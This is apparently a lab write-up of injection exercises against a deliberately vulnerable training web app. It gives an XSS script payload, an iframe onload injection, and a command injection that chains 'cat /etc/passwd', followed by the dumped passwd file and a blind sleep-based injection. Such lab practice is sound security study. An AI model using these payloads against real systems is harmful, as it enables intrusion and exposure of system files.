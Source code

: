 ??

## A1 HTML Injection - Reflected (URL)

### Low

Set host in request to whatever you want

## A1 Html Injection - Stored (Blog)

{% highlight html %}
<script>alert(1)</script>
{% endhighlight %}

## Iframe injection

?ParamUrl=robots.txt" onload="alert(1)&ParamWidth=250&ParamHeight=250

## SMTP Injection

Doesn't seem to work in docker image, but adding the following should execute:

To: malicious@email.com
Subject: Whatever

## LDAP Injection

Doesn't seem to work in VM

## OS Command Injection

{% highlight bash %}
www.nsa.gov;cat /etc/passwd

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin libuuid:x:100:101::/var/lib/libuuid: syslog:x:101:104::/home/syslog:/bin/false mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false 

{% endhighlight %}

## Blind OS Command Injection

{% highlight bash %}
127.0.0.1;sleep 10s;
{% endhighlight %}
